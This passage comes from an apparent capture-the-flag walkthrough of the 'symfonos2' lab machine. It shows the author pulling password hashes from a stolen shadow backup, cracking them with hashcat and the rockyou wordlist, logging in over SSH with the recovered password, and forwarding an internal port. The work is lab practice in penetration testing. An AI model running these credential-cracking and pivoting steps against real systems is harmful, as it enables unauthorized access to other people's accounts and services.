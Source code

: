 After the **shadow.back** file has been downloaded, I filtered the password hashes to the systemHashes.txt file.

```console
root@kali:~$ grep -oP '\$6[^:]*' shadow.back > systemHashes.txt
```

Then I proceed to crack the password hashes and after a few minutes I had the password **sergioteamo** for the **aeolus** user.

```console
root@kali:~$ zcat /usr/share/wordlists/rockyou.txt.gz > wordlist.txt
root@kali:~$ hashcat -a 0 -m 1800 systemHashes.txt wordlist.txt
...
$6$dgjUjE.Y$G.dJZCM8.zKmJc9t4iiK9d723/bQ5kE1ux7ucBoAgOsTbaKmp.0iCljaobCntN3nCxsk4DLMy0qTn8ODPlmLG.:sergioteamo
...
```

### Login via SSH

Later I log in to the ssh service with the username **aeolus** and tha password **sergioteamo**.

listing the local services I realize that other services are running locally, port 8080 is possibly a web server.

```console
root@kali:~$ ssh aeolus@192.168.179.136
aeolus@192.168.179.136's password: 
aeolus@symfonos2:~$ whoami
aeolus
aeolus@symfonos2:~$ uname -a
Linux symfonos2 4.9.0-9-amd64 #1 SMP Debian 4.9.168-1+deb9u3 (2019-06-16) x86_64 GNU/Linux
aeolus@symfonos2:~$ ss -antl
State       Recv-Q Send-Q                Local Address:Port                       Peer Address:Port
LISTEN      0      80                        127.0.0.1:3306                                  *:* 
LISTEN      0      50                                *:139                                   *:* 
LISTEN      0      128                       127.0.0.1:8080                                  *:* 
LISTEN      0      32                                *:21                                    *:* 
LISTEN      0      128                               *:22                                    *:* 
LISTEN      0      20                        127.0.0.1:25                                    *:* 
LISTEN      0      50                                *:445                                   *:* 
LISTEN      0      50                               :::139                                  :::* 
LISTEN      0      64                               :::80                                   :::* 
LISTEN      0      128                              :::22                                   :::* 
LISTEN      0      20                              ::1:25                                   :::* 
LISTEN      0      50                               :::445                                  :::*
```

### Local Port Forwarding

To comprobe what is really running on this port I did ssh port forwarding to be able to access this service, notice that port 4444 is listening on our attacking machine. 

```console
root@kali:~$ ssh -L 4444:127.0.0.1:8080 aeolus@192.168.179.136 -N 
aeolus@192.168.179.136's password:

root@kali:~$ ss -antl | grep 4444
LISTEN 0      128        127.0.0.1:4444      0.0.0.0:*    
LISTEN 0      128            [::1]:4444         [::]:*
```
